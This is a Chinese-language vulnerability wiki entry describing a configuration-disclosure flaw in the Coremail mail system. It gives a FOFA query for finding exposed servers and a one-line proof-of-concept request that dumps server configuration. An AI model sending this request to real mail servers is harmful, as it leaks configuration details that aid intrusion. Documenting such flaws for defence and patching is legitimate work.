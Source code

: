 ```yaml
---
title: Coremail 配置信息泄露漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - Coremail
---
```


# Coremail 配置信息泄露漏洞

##  漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

> [!NOTE]
>
> Coremail 配置信息泄露漏洞

## FOFA

> [!NOTE]
>
> app="Coremail邮件系统"

## 漏洞复现

POC为

```
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](/img/20210924013727135674.png)

## Goby & POC

> [!NOTE]
>
> Coremail configuration information disclosure

![](/img/20210924013727363346.png)